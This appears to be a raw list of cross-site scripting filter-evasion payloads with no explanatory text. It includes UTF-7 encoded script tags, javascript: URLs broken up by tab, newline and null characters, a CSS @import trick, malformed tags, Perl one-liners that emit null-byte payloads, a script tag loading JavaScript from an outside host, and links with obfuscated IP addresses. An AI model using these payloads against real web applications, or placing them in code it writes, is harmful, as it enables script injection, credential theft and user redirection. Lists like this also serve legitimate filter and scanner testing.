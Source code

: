 &lt;HEAD&gt;&lt;META HTTP-EQUIV=&quot;CONTENT-TYPE&quot; CONTENT=&quot;text/html; charset=UTF-7&quot;&gt; &lt;/HEAD&gt;+ADw-SCRIPT+AD4-alert(&apos;XSS&apos;);+ADw-/SCRIPT+AD4-

\&quot;;alert(&apos;XSS&apos;);//

&lt;STYLE&gt;@im\port&apos;\ja\vasc\ript:alert(&quot;XSS&quot;)&apos;;&lt;/STYLE&gt;

&lt;IMG SRC=&quot;jav&#x09;ascript:alert(&apos;XSS&apos;);&quot;&gt;

&lt;IMG SRC=&quot;jav&amp;#x09;ascript:alert(&apos;XSS&apos;);&quot;&gt;

&lt;IMG SRC=&quot;jav&amp;#x0A;ascript:alert(&apos;XSS&apos;);&quot;&gt;

&lt;IMG SRC=&quot;jav&amp;#x0D;ascript:alert(&apos;XSS&apos;);&quot;&gt;

perl -e &apos;print &quot;&lt;IMG SRC=java\0script:alert(&quot;XSS&quot;)&gt;&quot;;&apos;&gt; out

perl -e &apos;print &quot;&amp;&lt;SCR\0IPT&gt;alert(&quot;XSS&quot;)&lt;/SCR\0IPT&gt;&quot;;&apos; &gt; out

&lt;IMG SRC=&quot; &amp;#14;  javascript:alert(&apos;XSS&apos;);&quot;&gt;

&lt;SCRIPT/XSS SRC=&quot;http://ha.ckers.org/xss.js&quot;&gt;&lt;/SCRIPT&gt;

&lt;BODY onload!#$%&amp;()*~+-_.,:;?@[/|\]^`=alert(&quot;XSS&quot;)&gt;

&lt;IMG SRC=&quot;javascript:alert(&apos;XSS&apos;)&quot;

&lt;&lt;SCRIPT&gt;alert(&quot;XSS&quot;);//&lt;&lt;/SCRIPT&gt;

&lt;IMG &quot;&quot;&quot;&gt;&lt;SCRIPT&gt;alert(&quot;XSS&quot;)&lt;/SCRIPT&gt;&quot;&gt;

&lt;SCRIPT&gt;a=/XSS/

&lt;A HREF=&quot;http://66.102.7.147/&quot;&gt;XSS&lt;/A&gt;

&lt;A HREF=&quot;http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D&quot;&gt;XSS&lt;/A&gt;

&lt;A HREF=&quot;http://1113982867/&quot;&gt;XSS&lt;/A&gt;

&lt;A HREF=&quot;http://0x42.0x0000066.0x7.0x93/&quot;&gt;XSS&lt;/A&gt;

&lt;A HREF=&quot;http://0102.0146.0007.00000223/&quot;&gt;XSS&lt;/A&gt;

&lt;A HREF=&quot;h&#x0A;tt&#09;p://6&amp;#09;6.000146.0x7.147/&quot;&gt;XSS&lt;/A&gt;

&lt;A HREF=&quot;//www.google.com/&quot;&gt;XSS&lt;/A&gt;

&lt;A HREF=&quot;//google&quot;&gt;XSS&lt;/A&gt;

&lt;A HREF=&quot;http://ha.ckers.org@google&quot;&gt;XSS&lt;/A&gt;

&lt;A HREF=&quot;http://google:ha.ckers.org&quot;&gt;XSS&lt;/A&gt;

&lt;A HREF=&quot;http://google.com/&quot;&gt;XSS&lt;/A&gt;

&lt;A HREF=&quot;http://www.google.com./&quot;&gt;XSS&lt;/A&gt;

&lt;A HREF=&quot;javascript:document.location=&apos;http://www.google.com/&apos;&quot;&gt;XSS&lt;/A&gt;

&lt;A HREF=&quot;http://www.gohttp://www.google.com/ogle.com/&quot;&gt;XSS&lt;/A&gt;

&lt;script&gt;a=/XSS/\ndocument.vulnerable=true;&lt;/script&gt;

